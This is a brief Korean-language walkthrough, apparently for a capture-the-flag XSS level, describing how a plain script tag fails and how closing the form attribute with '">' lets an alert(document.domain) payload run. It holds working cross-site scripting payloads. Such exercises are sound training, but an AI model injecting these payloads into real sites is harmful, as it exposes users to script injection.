 # <p align="center">🎁XSS Lv.2</p>
- 문제 조건
  - 경고창에 domain 띄우기
  - 그냥 하라고 입력칸이 있음

- 문제풀이<br/>
  - ```<script>alert(document.domain)</script>```입력
  - 뭔가 안 되는걸 확인했으니 개발자 도구 확인
  - form 태그에 입력한 내용이 그대로 들어감
  - ">로 form 태그를 닫고 그 뒤에 스크립트 삽입
  - ```"><script>alert(document.domain)</script>```
  - -끗-